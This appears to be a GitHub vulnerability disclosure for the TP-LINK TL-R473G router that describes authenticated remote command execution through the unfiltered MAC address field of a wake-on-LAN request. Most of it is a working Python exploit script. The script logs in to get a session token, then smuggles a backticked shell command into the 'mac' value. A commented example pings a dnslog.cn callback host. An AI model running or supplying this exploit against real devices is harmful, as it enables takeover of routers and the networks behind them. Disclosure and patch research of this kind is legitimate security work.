

# TP-LINK TL-R473G command_execution

**CVE ID**:  

**CNVD ID**: 

**Vender**: TP-LINK

**Vendor Homepage**: https://www.tp-link.com.cn/、https://www.tp-link.com/

**Affect products**: TL-R473G

**Firmware version**: 2.0.1 Build 220529 Rel.65574n(the latest version)

**Hardware Link**: not the latest version firmware https://smb.tp-link.com.cn/service/detail_download_8644.html

**Exploit Author**: [SkYe231@Hillstone](mailto:ext-lhliang@Hillstonenet.com)

## describe

The TP-LINK TL-R473G has remote command execution, and remote attackers can bypass restrictions through carefully constructed packets to achieve remote command execution.

## detail

There is no effective filtering of MAC addresses, just replace the `-` with `:` .



[verification video](./verification_video.mp4)

## EXP

```python
# encoding:utf-8
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import json,sys

TIMEOUT_MAX = 60
HOST = sys.argv[1]
USERNAME = sys.argv[2]
PASSWORD = sys.argv[3]
COMMAND = sys.argv[4]#"ping a5urz4.dnslog.cn"

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_stok(host,username,password):
    headers = {
        "Content-Type":"application/json; charset=UTF-8"
    }
    data = {"method":"do","login":{"username":username,"password":password}}
    url = host
    response = requests.post(url=url,headers=headers,data=json.dumps(data),verify=False,timeout=TIMEOUT_MAX)
    stok = json.loads(response.text)["stok"]
    print("[+]Get stok:",stok)
    return stok

def rce(host,stok):
    url = host+"/stok="+stok+"/ds"
    headers = {
        "Content-Type":"application/json; charset=UTF-8"
    }
    data = {"method":"do","wol":{"wol_wake":{"mac":"DC-DC-DC-DC-`{}`-DC".format(COMMAND),"usrif":"LAN"}}}
    response = requests.post(url=url,headers=headers,data=json.dumps(data))
    if json.loads(response.text)["error_code"] == 0 :
        print("[+]Success")
    else:
        print("[-]Error")

def exp(host,username,password):
    host = host.strip()
    if host[:4] != "http":
        host = "http://" + host
    stok = get_stok(host,username,password)
    if stok != -1:
        rce(host,stok)

if __name__ == "__main__":
    exp(HOST,USERNAME,PASSWORD)
```

